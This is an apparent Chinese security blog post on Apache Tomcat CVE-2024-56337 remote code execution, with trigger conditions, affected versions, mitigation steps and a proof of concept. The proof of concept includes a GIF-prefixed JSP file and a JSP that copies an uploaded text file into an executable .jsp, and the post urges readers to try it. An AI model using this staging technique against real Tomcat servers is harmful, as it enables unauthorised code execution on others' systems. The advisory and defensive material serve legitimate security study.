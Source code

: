 #  Tomcat RCE | CVE-2024-56337远程代码执行，带复现视频及POC   
原创 犀利猪  犀利猪安全   2024-12-23 02:14  
  
![](https://mmbiz.qpic.cn/mmbiz_png/PVHs7dHw163nH6MUINlAAdNibz6iaI4IzyrdKvVSZibcTh4HYuZdYIfb8qc2V0Ij92eaVBlDUY5H7rtIfgnYZzh6A/640?wx_fmt=png "")  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/PVHs7dHw163l3X1DTic0xNUMlqqNWbyjzMCSQBL5TSYMicqiaebusTIMaEibNDp0S0ST543taeeM9Blvydoa0pk0uA/640?wx_fmt=png "")  
  
**0x00 漏洞简述**  
  
    此次漏洞的出现，源于对Tomcat条件竞争漏洞（CVE-2024-50379）的修复措施，但修复不够完整，导致Apache Tomcat 在特定配置下运行，攻击者可能利用该漏洞通过写入恶意文件，实现远程代码执行。  
  
    相比于原本的  
Tomcat条件竞争漏  
洞（CVE-2024-50379），无非是漏洞实现上稍微多了些许限制，其他无异样。  
  
  
**触发条件**  
  
    1、readonly 初始化参数设置为false；  
  
    2、Tomcat 运行在区分大小写的文件系统上（Windows或某些Linux文件系统）；  
  
    3、Java属性sun.io.useCanonCaches为true（Java8和Java 11默认为 true，Java17 默认false，Java21及以上版本不受影响）  
  
  
**影响版本**  
- Apache Tomcat 11.0.0-M1 至 11.0.1  
  
- Apache Tomcat 10.1.0-M1 至 10.1.33  
  
- Apache Tomcat 9.0.0-M1 至 9.0.97  
  
![](https://mmbiz.qpic.cn/mmbiz_png/PVHs7dHw163l3X1DTic0xNUMlqqNWbyjzMCSQBL5TSYMicqiaebusTIMaEibNDp0S0ST543taeeM9Blvydoa0pk0uA/640?wx_fmt=png "")  
  
**0x01 前情回顾**  
  
    之前我们分别发布了两篇文章，分别是Tomcat条件竞争RCE的复现、以及一篇如何让它持久的利用：  
  
[Tomcat RCE | CVE-2024-50379条件竞争RCE复现，带视频教程及POC](https://mp.weixin.qq.com/s?__biz=Mzk0NzQxNzY2OQ==&mid=2247487499&idx=1&sn=54c62641c62f93cdf13a14f22231801f&scene=21#wechat_redirect)  
  
  
  
[书接上回 | Tomcat条件竞争RCE该如何深入利用，让它持久而并非昙花一现](https://mp.weixin.qq.com/s?__biz=Mzk0NzQxNzY2OQ==&mid=2247487591&idx=1&sn=14d76d32e7522965b528f556598772e4&scene=21#wechat_redirect)  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/PVHs7dHw1604HL3RYrePiaXV0fIKC5JibHgdxc68SoBiaIZ2VlyQlwv21H5Ra8WF0jfUCY1znOjFKuGo7nhjqs6Qw/640?wx_fmt=png&from=appmsg "")  
  
    局限还是比较大的：首先就是需要在Windows上，在漏洞版本范围内，然后开了PUT请求，才能利用条件竞争进行上传。  
  
    但是有些东西，你懂的，不可能完全没人开启的，研究它，就是为了在遇到这个漏洞时更好的进行利用：  
  
![](https://mmbiz.qpic.cn/mmbiz_png/PVHs7dHw1604HL3RYrePiaXV0fIKC5JibHjL1VDJSGahzUme0yF584jaHTlMgeOZ8F8DtTF2JeNGwzibR7eiaIPhLw/640?wx_fmt=png&from=appmsg "")  
  
    第二篇文章，咱们已经描述了这个条件竞争漏洞的利用条件，并提供了一个远程下载的方案，但是这个方案还是有一个问题：  
如果目标不出网，无法进行远程下载，所以咱们总结了一个最终利用。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/PVHs7dHw163l3X1DTic0xNUMlqqNWbyjzMCSQBL5TSYMicqiaebusTIMaEibNDp0S0ST543taeeM9Blvydoa0pk0uA/640?wx_fmt=png "")  
  
**0x02 群友反馈**  
  
    已经有群友反馈成功了，你也快试试吧：  
  
![](https://mmbiz.qpic.cn/mmbiz_png/FIBZec7ucChhZqvOVoz3euT3icYwAAGMrYuUVJWVHicKOyPNmOGv71vVzBmPNQUq7Pc0NiafbACHTrPfDCxaCwMow/640?wx_fmt=png "")  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/PVHs7dHw160sKTllbdHibe6OmJCO6EfgveFngImkcyticsgud4YSbicia7GWQVm8rwNXul1RvUsRqmCJb0mics99KMQ/640?wx_fmt=png&from=appmsg "")  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/FIBZec7ucChhZqvOVoz3euT3icYwAAGMrYuUVJWVHicKOyPNmOGv71vVzBmPNQUq7Pc0NiafbACHTrPfDCxaCwMow/640?wx_fmt=png "")  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/PVHs7dHw160sKTllbdHibe6OmJCO6EfgvUOxowEsta5Xle7zMvvibQCAWXZuTJ3CaxriccGpx7PI9icLxDb3MJnibCw/640?wx_fmt=png&from=appmsg "")  
  
  
  
  
  
  
  
  
  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/PVHs7dHw163l3X1DTic0xNUMlqqNWbyjzMCSQBL5TSYMicqiaebusTIMaEibNDp0S0ST543taeeM9Blvydoa0pk0uA/640?wx_fmt=png "")  
  
**0x03 直接开播**  
  
    不想打字了，直接看视频吧：  
  
```
Tomcat分大小写，所以竞争结束后访问xlz1.jsp和xlz1.txt返回404；
访问xlz1.Jsp或者xlz1.Txt的话会输出代码，反正就是不执行。 
总结一下就是受限制了，读取生成的没毛病。
```  
  
**POC如下**  
  
****获取时间：  
```
GIF89a
<%@page import="java.text.SimpleDateFormat"%>
<%@page import="java.util.Date"%>
<%@ page language="java" contentType="text/html; UTF-8"
    pageEncoding="UTF-8"%>
<!DOCTYPE html>
<html>
<head>
<meta charset="utf-8">
<title>java_bean</title>
</head>
<body>
  
    <%
        Date date = new Date();   
        SimpleDateFormat df = new SimpleDateFormat("yyyy-MM--dd HH:mm:ss"); 
        String today = df.format(date); 
    %>
    当前时间:<%= today%>
</body>
</html>
```  
  
    读取重命名并保存：****  
```
<%@ page import="java.io.*" %>
<%
    //要读取的文件
    String sourceFilePath = application.getRealPath("/") + "xlz1.txt"; 
//重新保存后的文件名
    String destinationFilePath = application.getRealPath("/") + "time123.jsp"; 

    try {

        FileReader fileReader = new FileReader(sourceFilePath);
        BufferedReader bufferedReader = new BufferedReader(fileReader);

        FileWriter fileWriter = new FileWriter(destinationFilePath);
        BufferedWriter bufferedWriter = new BufferedWriter(fileWriter);

        String line;
        while ((line = bufferedReader.readLine()) != null) {
            bufferedWriter.write(line);
            bufferedWriter.newLine();  
        }
        bufferedReader.close();
        bufferedWriter.close();
        out.println("SAVA_PATH: " + destinationFilePath);
    } catch (IOException e) {
        e.printStackTrace();
        out.println("Error: " + e.getMessage());
    }
%>
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/PVHs7dHw163l3X1DTic0xNUMlqqNWbyjzMCSQBL5TSYMicqiaebusTIMaEibNDp0S0ST543taeeM9Blvydoa0pk0uA/640?wx_fmt=png "")  
  
**0x04 修复措施**  
  
**1. 升级 Apache Tomcat版本至：**  
-     Apache Tomcat 11.0.2 及以上  
  
-     Apache Tomcat 10.1.34 及以上  
  
-     Apache Tomcat 9.0.98 及以上  
  
##### 2. 临时缓解  
  
**Java8/Java11：**  
设置系统属性sun.io.useCanonCaches  
 为**false**  
（默认值为 true）。  
  
  
**Java17：**  
如该属性被设置，需确保其值为**false**  
（默认值为 false）。  
  
  
**Java21 及以上版本：**  
  
无需配置（该属性已被移除）。  
  
**设置方法示例**  
：  
    在启动 Tomcat 的 JVM 参数中添加：  
```
-Dsun.io.useCanonCaches=false
```  
  
  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/PVHs7dHw163nH6MUINlAAdNibz6iaI4Izy4LuoZ7bquVOTMR71nU9KdboYQl4xoGMXguo4X7ojBz8EgZn7RuRYMw/640?wx_fmt=gif "")  
  
(  
  
**END**  
  
)  
  
  
  
  
**！扫码添加哦！**  
  
**联系进群即可，群内可交流技术**  
  
![](https://mmbiz.qpic.cn/mmbiz_png/PVHs7dHw161SVECqIIflnQVpMTR7hvQAZK7QuDt16f1GLXXstw8TpKFkfPNzWqYJwBsNq9w2np08rf2Daia88aA/640?wx_fmt=png "")  
  
**免责声明**  
  
  
  
  
  
  
  
  
     
  
**文章**  
**内容仅限授权测试或学习使用**  
  
**请勿进行非法的测试或攻击******  
  
    利用本账号所发文章**进行直接或间接的非法行为**均由操作者本人负全责**犀利猪安全及文章对应作者**  
  
**不为此承担任何责任**  
  
**文章来自互联网或原创**  
  
**如有侵权可联系我方进行删除**  
  
**并诚挚的跟您说声抱歉**  
  
  
  
  

